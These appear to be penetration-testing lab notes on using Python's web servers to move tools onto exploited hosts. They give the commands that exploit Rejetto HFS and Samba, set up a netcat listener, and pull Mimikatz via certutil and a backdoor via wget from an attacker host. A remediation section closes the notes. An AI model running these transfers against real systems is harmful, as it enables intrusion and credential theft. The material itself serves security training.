# Setting up a Web Server with Python

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Attacker:** Kali

## 1. Executive Summary

A quick HTTP server is the simplest way to move tools onto a target. We stand up Python's
built-in web servers (`SimpleHTTPServer` on Python 2, `http.server` on Python 3), then use
them to transfer a payload and **Mimikatz** to a Windows host (exploited via Rejetto) and a
backdoor to a Linux host (exploited via Samba, pulled with `wget`).

## 2. Python Web Servers

We want to serve a Mimikatz executable, so we copy it to a serving directory.





Python 2:

```bash
python -m SimpleHTTPServer 80
```







Python 3:

```bash
python3 -m http.server 80
```







## 3. Transferring to a Windows Target

```bash
db_nmap -sV <win-target>      # Rejetto HFS on 80
```



Using a Rejetto exploit script (needs a hosted `nc.exe` and a listener).






```bash
nc -nvlp 1234
python3 -m http.server 80
```











Now serving Mimikatz and pulling it onto the target.

```cmd
mkdir C:\Temp
certutil -urlcache -f http://<attacker>/mimikatz.exe C:\Temp\mimikatz.exe
```









## 4. Transferring to a Linux Target

```bash
db_nmap -sV <linux-target>    # Samba
use exploit/linux/samba/is_known_pipename
run
```





```bash
python3 -m http.server 80     # in another tmux pane
# on the target:
wget http://<attacker>/backdoor
```







## 5. Notes & Remediation

1. **Egress filtering and allow-listing** block the pull of tools (`certutil`, `wget`) and
   their execution.
2. **EDR/AV** should flag Mimikatz and living-off-the-land downloaders.
3. Monitor for unexpected outbound HTTP from servers and new files in temp directories.
